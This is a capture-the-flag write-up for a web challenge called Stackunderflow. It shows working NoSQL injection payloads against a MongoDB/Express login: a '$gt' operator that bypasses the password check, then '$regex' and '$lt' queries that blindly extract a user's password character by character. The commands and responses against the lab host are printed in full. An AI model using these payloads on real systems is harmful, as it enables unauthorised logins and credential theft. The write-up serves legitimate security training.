 
# 10 - Stackunderflow [medium]
> Check out this new Q&A site. They must be hiding something but we don't know
> where to search.
>
> [Stackunderflow](http://whale.hacking-lab.com:3371/)

## Logging in as Admin

The Stackunderflow site only has two things one can do. We can look at a list
of questions, or we can login:

![index.png](index.png)


The list of questions is mostly uninteresting:

![questions.png](questions.png)


And so is the login page:

![login.png](login.png)


Trying to login seems to always result in an error saying "Unknown user":

![login_failed.png](login_failed.png)

The login doesn't seem to be vulnerable to SQL injections either.

Looking through the asked questions we find one by a user called "the_admin":

![the_admin_question.png](the_admin_question.png)

Interestingly the_admin's name is colored differently, which makes it seem 
likely that this is the admin of the Stackunderflow site. This is a pretty
obvious hint that the site is using a NoSQL database.

Although there are multiple NoSQL databases on the market, the most well known
is arguably MongoDB. Another factor for believing it's MongoDB is that there
appears to be [ObjectIDs](https://docs.mongodb.com/manual/reference/method/ObjectId/)
at the end of the questions URLS (e.g. `"questions/5cc9619fb135c70015b797c4"`).
So for now we assume that the database used is MongoDB, and that we can find
some flaw to abuse it.

Another observation we make is looking at the response headers and noticing
that the site is running [Express](https://expressjs.com/), a common Node.js
web framework.

MongoDB and Node.js... This smells like [Hacking Nodejs And MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html).
Indeed, using the first example in the blog post we are able to login as
"the_admin":


```console
> http -v post http://whale.hacking-lab.com:3371/login username=the_admin password:='{\"$gt\":\"\"}'
POST /login HTTP/1.1
Accept: application/json, */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 50
Content-Type: application/json
Host: whale.hacking-lab.com:3371
User-Agent: HTTPie/1.0.2

{
    "password": {
        "$gt": ""
    },
    "username": "the_admin"
}

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 12:55:14 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3AtRi4FJ2QI614r-VGIDIQHugH_nYe5I2v.n4DzqVx52wvnjcfKEn%2By3BQIUiOuUBtP6CXYld%2BnYkQ; Path=/; HttpOnly

Found. Redirecting to /
```

Using the cookie from the successful login, we are able to become the_admin. As
the_admin we can view a previously hidden question, essentially telling us
that the flag for the level is the password of the user "null":

![hidden_question.png](hidden_question.png)


## Find null's password

The MongoDB injection technique we used to login as the_admin works since it
bypasses the check for the correct password. Finding the actual password is a
bit harder. But since we have access to MongoDB operators, such as `$gt` and
`$regex`, and since we can tell when a login is failed or not, finding the
password is fairly trivial still.

We begin by using [`$regex`](https://docs.mongodb.com/manual/reference/operator/query/regex/)
and regex character classes to determine the charset, expanding the character class until we
are successfully logged in:

```console
> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9-]+$\"}'
HTTP/1.1 500 Internal Server Error
Content-Length: 1308
Content-Type: text/html; charset=utf-8
Date: Sat, 18 May 2019 16:00:09 GMT
ETag: W/"51c-Wr+16YA2o10680O7sqSQVkfdiUM"
X-Powered-By: Express

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]+$\"}'
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:00:22 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3A8N4n5-ufB1LHM8KYcTBbQDvz99IaIv2t.XuwymI%2Bh%2Fg%2FUtTg954REOmGitgzKgVhkyuNxatTp0kk; Path=/; HttpOnly
```

Then we find the length of the password by setting and increasing the lower
bound of the number of matches against the character class:

```console
> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{20,}$\"}'
HTTP/1.1 302 Found
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:03:27 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3A-SZIGm2EgZ-GlazW0GTYvUqSfIm63Hza.qWZn6s6EqXsM0zML6HCfB8d24h7jXh5uG8ferGJm6P0; Path=/; HttpOnly

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{30,}$\"}'
HTTP/1.1 500 Internal Server Error
Connection: keep-alive
Content-Length: 1308
Content-Type: text/html; charset=utf-8
Date: Sat, 18 May 2019 16:03:32 GMT
ETag: W/"51c-Wr+16YA2o10680O7sqSQVkfdiUM"
X-Powered-By: Express

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{28}$\"}'
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:03:46 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3AT3amnyOw3c6GAeypuXQLszr3KmZvkYMk.RNubehI6Yux7Xy7cSCDjLvbYPeczs8qa0t9EYJnEDjM; Path=/; HttpOnly
```

With that we know that the password matches the following regex:
`^[a-zA-Z0-9_]{28}$`. Next we will use the `$lt` operator to find the password
one character at a time, by using the fact that the `$lt`-operator compares
string lexicographically (i.e. in pseudo-code: `"a" $lt "b" == true`).

For example, let's assume that the first character of the password is `7`. We
then start testing if the password is `< "1"`. If the comparison is true, then
we know that the first character must be `"0"` since `"0"` is the only
character in the charset that is lexicographically less than `"1"`. Otherwise,
we increment the string and try again. It would look something like this (where
the "x"s represents some unknown character):

```
"7xxxxxxxxxxxxxxx" < "1" == false
"7xxxxxxxxxxxxxxx" < "2" == false
...
"7xxxxxxxxxxxxxxx" < "7" == false
"7xxxxxxxxxxxxxxx" < "8" == true 
=> First char must be "8"-1 (="7")
```

Note that we rely on `"7xxxxxxxxxxxxxxx" < "7" == false` for this to work, 
which might not actually be the case depending on how the implementation for
when one string is shorter than the other. To work around this we pad our input
with "!", so that when the first character is equal we know that our string is
always seen as lower. I.e. our guesses would instead look like this:

```
"7xxxxxxxxxxxxxxx" < "1!!!!!!!!!!!!!!!" == false
"7xxxxxxxxxxxxxxx" < "2!!!!!!!!!!!!!!!" == false
...
"7xxxxxxxxxxxxxxx" < "7!!!!!!!!!!!!!!!" == false
"7xxxxxxxxxxxxxxx" < "8!!!!!!!!!!!!!!!" == true 
=> First char must be "8"-1 (="7")
```

Then we do the same to find the next character in the password ("5" in this
example):

```
"75xxxxxxxxxxxxxx" < "71!!!!!!!!!!!!!!" == false
...
"75xxxxxxxxxxxxxx" < "75!!!!!!!!!!!!!!" == false
"75xxxxxxxxxxxxxx" < "76!!!!!!!!!!!!!!" == true
=> Second char must be "6"-1 (="5")
```

And continue doing that until we have learnt the entire password.

Unfortunately, the password is long enough that this linear search would take 
an unreasonable amount of time. Instead we will have to do a binary search,
starting in the middle of the charset and throwing away half the charset per query,
but the basic comparison is still the same.

Of course we also have to consider that we have to use the login form request
for "asking" these queries. As already state, we will do this by using the
MongoDB `$lt`-operator. Translating `"7xxxxxxxxxxxxxxx" < "2" == false` into
MongoDB query that we can use for the login request it would look like this:

```json
{
    "password": {
        "$lt": "2!!!!!!!!!!!!!!!"
    },
    "username": "null"
}
```

And we will also not get a straight `true` or `false` answer, instead we will 
get a "login failed" (500 status) for `false` and "login successful" (302
status) for `true`.

All of the above was implemented in [solve.py](solve.py). Running it takes a
couple of minutes and then produces the password:

```console
> pipenv run python .\solve.py
...
=> N0SQL_injections_are_a_thing
```

Submitting "N0SQL_injections_are_a_thing" to the Egg-o-Matic(tm) rewards us with
the egg for this level:

![c2044d5b3a74b890324ef53fcdbbabc9c294e861.png](c2044d5b3a74b890324ef53fcdbbabc9c294e861.png)

